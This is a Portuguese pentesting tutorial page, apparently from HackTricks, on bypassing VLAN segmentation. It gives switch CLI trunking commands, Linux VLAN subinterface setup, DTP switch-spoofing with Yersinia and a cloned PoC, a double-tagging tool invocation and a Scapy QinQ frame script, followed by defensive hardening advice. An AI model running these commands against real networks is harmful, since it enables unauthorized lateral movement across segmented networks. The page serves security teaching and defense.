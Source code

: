# Lateral VLAN Segmentation Bypass

{{#include ../../banners/hacktricks-training.md}}

Se o acesso direto a um switch estiver disponível, a segmentação de VLAN pode ser contornada. Isso envolve reconfigurar a porta conectada para o modo trunk, estabelecendo interfaces virtuais para as VLANs alvo e definindo endereços IP, seja dinamicamente (DHCP) ou estaticamente, dependendo do cenário (**para mais detalhes, consulte [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Inicialmente, é necessário identificar a porta conectada específica. Isso pode ser tipicamente realizado através de mensagens CDP ou procurando pela porta via a máscara **include**.

**Se o CDP não estiver operacional, a identificação da porta pode ser tentada procurando pelo endereço MAC**:
```
SW1(config)# show mac address-table | include 0050.0000.0500
```
Antes de mudar para o modo trunk, uma lista de VLANs existentes deve ser compilada e seus identificadores determinados. Esses identificadores são então atribuídos à interface, permitindo o acesso a várias VLANs através do trunk. A porta em uso, por exemplo, está associada à VLAN 10.
```
SW1# show vlan brief
```
**A transição para o modo trunk envolve entrar no modo de configuração da interface**:
```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```
Mudar para o modo trunk irá interromper temporariamente a conectividade, mas isso pode ser restaurado posteriormente.

Interfaces virtuais são então criadas, atribuídas IDs de VLAN e ativadas:
```bash
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up
```
Em seguida, uma solicitação de endereço é feita via DHCP. Alternativamente, em casos onde o DHCP não é viável, os endereços podem ser configurados manualmente:
```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```
Exemplo de configuração manual de um endereço IP estático em uma interface (VLAN 10):
```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```
A conectividade é testada iniciando solicitações ICMP para os gateways padrão das VLANs 10, 20, 50 e 60.

Em última análise, esse processo permite contornar a segmentação de VLAN, facilitando o acesso irrestrito a qualquer rede VLAN e preparando o terreno para ações subsequentes.

---

## Outras Técnicas de VLAN-Hopping (sem CLI privilegiada do switch)

O método anterior assume acesso autenticado ao console ou Telnet/SSH do switch. Em engajamentos do mundo real, o atacante geralmente está conectado a uma **porta de acesso regular**. Os seguintes truques de Camada 2 frequentemente permitem que você faça pivotagem lateral sem nunca fazer login no sistema operacional do switch:

### 1. Switch-Spoofing com Protocolo de Trunking Dinâmico (DTP)

Switches Cisco que mantêm o DTP habilitado negociarão felizmente um trunk se o par afirmar ser um switch. Criar um único quadro **DTP “desejável”** ou **“trunk”** converte a porta de acesso em um trunk 802.1Q que transporta *todas* as VLANs permitidas.

*Yersinia* e vários PoCs automatizam o processo:
```bash
# Become a trunk using Yersinia (GUI)
$ sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
$ git clone https://github.com/fleetcaptain/dtp-spoof.git
$ sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```
Uma vez que a porta muda para trunk, você pode criar subinterfaces 802.1Q e pivotar exatamente como mostrado na seção anterior. Kernels modernos do Linux não requerem mais *vconfig*; em vez disso, use *ip link*:
```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up
```
### 2. Double-Tagging (Abuso de Native-VLAN)

Se o atacante estiver na **VLAN nativa (sem tag)**, um quadro elaborado com *dois* cabeçalhos 802.1Q pode "pular" para uma segunda VLAN, mesmo quando a porta está bloqueada em modo de acesso. Ferramentas como **VLANPWN DoubleTagging.py** (atualização de 2022-2024) automatizam a injeção:
```bash
python3 DoubleTagging.py \
--interface eth0 \
--nativevlan 1 \
--targetvlan 20 \
--victim 10.10.20.24 \
--attacker 10.10.1.54
```
Packet walk-through:
1. A tag externa (1) é removida pelo primeiro switch porque corresponde à VLAN nativa.
2. A tag interna (20) agora está exposta; o quadro é encaminhado para o trunk em direção à VLAN 20.

A técnica ainda funciona em 2025 em redes que mantêm a VLAN nativa como padrão e aceitam quadros não marcados.

### 3. Empilhamento QinQ (802.1ad)

Muitos núcleos empresariais suportam encapsulamento de provedor de serviço *Q-in-Q*. Onde permitido, um atacante pode tunelar tráfego arbitrário marcado com 802.1Q dentro de um provedor (S-tag) para cruzar zonas de segurança. Capture para o ethertype 802.1ad 0x88a8 e tente remover a tag externa com Scapy:
```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```
---

## Recomendações Defensivas

1. Desative o DTP em todas as portas voltadas para o usuário: `switchport mode access` + `switchport nonegotiate`.
2. Altere a VLAN nativa em cada trunk para uma **VLAN não utilizada, black-hole** e a marque: `vlan dot1q tag native`.
3. Remova VLANs desnecessárias nos trunks: `switchport trunk allowed vlan 10,20`.
4. Aplique segurança de porta, DHCP snooping e inspeção ARP dinâmica para limitar atividades indesejadas de Camada 2.
5. Prefira VLANs privadas ou segmentação L3 em vez de depender apenas da separação 802.1Q.

---

## Referências

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
- Conjunto de ferramentas de ataque VLANPWN – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "O que é VLAN Hopping?" (Ago 2024) – <https://www.twingate.com/blog/glossary/vlan%20hopping>

{{#include ../../banners/hacktricks-training.md}}
